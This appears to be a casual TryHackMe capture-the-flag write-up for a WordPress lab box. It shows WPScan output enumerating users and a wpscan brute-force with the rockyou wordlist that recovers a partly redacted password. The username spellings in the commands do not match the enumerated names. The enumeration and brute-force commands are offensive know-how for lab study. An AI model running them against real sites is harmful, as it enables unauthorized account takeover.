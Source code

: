 ```

[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
```
Lets go we got a version number and a release date. This is awesome because now we know what vulnerabilities to look into. Epic.

```

[+] bjoel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.47.63/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] kwheel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.47.63/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Aggressive Detection)
```

Username enumeration is great too now we know what usernames to bruteforce and possibely get access into this word press blog. Im gonna actually do that before analyzing anymore of my scans.


### Word Press Brute-Force Break

You cooooould bruteforce with Hydra but i don't feel like grabbing a post request so Im just going to use wpscan. If you wanted to, TryHackMe wants you to grab the post request using burpsuite, but you can also do it with chrom dev tools (inspect element for you actual hackers). 

```
wpscan --url http://blog.thm/wp-login.php/ --usernames bjoe1 --passwords /usr/share/wordlists/rockyou.txt 
```
Keep in mind you don't have to put the full directory to the login page I just do it because Im superstitious. 

```
wpscan --url http://blog.thm/wp-login.php/ --usernames kwheel1 --passwords /usr/share/wordlists/rockyou.txt 
```
I ran into a roadblock with the first user so I switched to kwheel1 and we cracked the password using the all too familiar rockyou.txt. I got my crack at around 2865 so if your going to use rock you too it should be fairly quick. 

```

Trying kwheel / cutiepie1 Time: 00:03:44 <> (2864 / 14347257)  0.01%  ETA:Trying kwheel / westham Time: 00:03:44 <> (2864 / 14347257)  0.01%  ETA: ?Trying kwheel / westham Time: 00:03:44 <> (2865 / 14347257)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
| Username: kwheel, Password: c[REDACTED]


```
